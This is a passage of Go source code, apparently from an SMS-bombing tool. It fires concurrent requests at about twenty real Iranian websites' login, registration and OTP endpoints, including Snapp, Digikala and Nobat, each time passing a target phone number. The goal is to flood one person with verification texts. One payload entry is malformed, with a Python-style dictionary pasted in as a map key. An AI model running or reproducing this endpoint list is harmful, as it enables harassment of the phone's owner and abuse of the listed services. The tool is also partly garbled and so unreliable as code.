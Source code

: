 		go sms("https://api.snapp.ir/api/v1/sms/link", map[string]interface{}{
			"phone": phone,
		}, ch)
		go sms("https://a4baz.com/api/web/login", map[string]interface{}{
			"cellphone": phone,
		}, ch)
		go sms("https://api.anargift.com/api/people/auth", map[string]interface{}{
			"user": phone,
		}, ch)
		go sms("https://nobat.ir/api/public/patient/login/phone", map[string]interface{}{
			"mobile": phone,
		}, ch)
		go sms("https://www.buskool.com/send_verification_code", map[string]interface{}{
			"phone": phone,
		}, ch)
		go sms("https://application2.billingsystem.ayantech.ir/WebServices/Core.svc/requestActivationCode", map[string]interface{}{
			"'Parameters': {'ApplicationType': 'Web','ApplicationUniqueToken': None, 'ApplicationVersion': '1.0.0','MobileNumber': +": phone,
		}, ch)
		go sms("https://www.simkhanapi.ir/api/users/registerV2", map[string]interface{}{
			"mobileNumber": phone,
		}, ch)
		go sms("https://sandbox.sibirani.ir/api/v1/user/invite", map[string]interface{}{
			"username": phone,
		}, ch)
		go sms("https://shop.hyperjan.ir/api/users/manage", map[string]interface{}{
			"mobile": phone,
		}, ch)
		go sms("https://api.digikala.com/v1/user/authenticate/", map[string]interface{}{
			"username": phone,
		}, ch)
		go sms("https://hiword.ir/wp-json/otp-login/v1/login", map[string]interface{}{
			"identifier": phone,
		}, ch)
		go sms("https://abantether.com/users/register/phone/send/", map[string]interface{}{
			"phoneNumber": phone,
		}, ch)
		go sms("https://api.bit24.cash/api/v3/auth/check-mobile", map[string]interface{}{
			"mobile": phone,
		}, ch)
		go sms("https://dicardo.com/main/sendsms", map[string]interface{}{
			"phone": phone,
		}, ch)
		go sms("https://ghasedak24.com/user/ajax_register", map[string]interface{}{
			"username": phone,
		}, ch)
		go sms("https://tikban.com/Account/LoginAndRegister", map[string]interface{}{
			"CellPhone": phone,
		}, ch)
		go sms("https://www.digistyle.com/users/login-register/", map[string]interface{}{
			"loginRegister[email_phone]": phone,
		}, ch)
		go sms("https://banankala.com/home/login", map[string]interface{}{
			"Mobile": phone,
		}, ch)
		go sms("https://www.iranketab.ir/account/register", map[string]interface{}{
			"UserName": phone,
		}, ch)
		go sms("https://ketabchi.com/api/v1/auth/requestVerificationCode", map[string]interface{}{
			"phoneNumber": phone,
		}, ch)
		go sms("https://www.offdecor.com/index.php?route=account/login/sendCode", map[string]interface{}{
			"phone": phone,